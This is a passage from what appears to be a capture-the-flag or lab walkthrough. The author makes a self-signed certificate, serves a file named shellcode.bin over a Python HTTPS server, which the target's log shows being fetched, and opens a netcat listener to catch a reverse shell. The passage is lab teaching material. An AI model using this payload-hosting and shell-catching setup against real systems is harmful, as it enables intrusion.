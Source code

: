 We can now generate a self-signed certificate to use to set up a HTTPS simple webserver :

```console
root@ip-10-10-8-119:~/Desktop# openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
Can't load /root/.rnd into RNG
140138067640768:error:2406F079:random number generator:RAND_load_file:Cannot open file:../crypto/rand/randfile.c:88:Filename=/root/.rnd
Generating a RSA private key
.....+++++
...........................+++++
writing new private key to 'localhost.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
root@ip-10-10-8-119:~/Desktop# 
```
{: .nolineno }

Launch the HTTPS server : 

```console
root@ip-10-10-8-119:~/Desktop# python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"

10.10.142.2 - - [13/Nov/2022 09:27:18] "GET / HTTP/1.1" 200 -
10.10.142.2 - - [13/Nov/2022 09:27:18] code 404, message File not found
10.10.142.2 - - [13/Nov/2022 09:27:18] "GET /favicon.ico HTTP/1.1" 404 -
10.10.142.2 - - [13/Nov/2022 09:30:15] "GET /shellcode.bin HTTP/1.1" 200 -
```
{: .nolineno }

In an other terminal, we also can set up a netcat listener :

```console
root@ip-10-10-8-119:~/Desktop# nc -lvnp 7474
Listening on [0.0.0.0] (family 0, port 7474)
```
{: .nolineno }

We can verify that our shellcode.bin is accessible from our target machine :
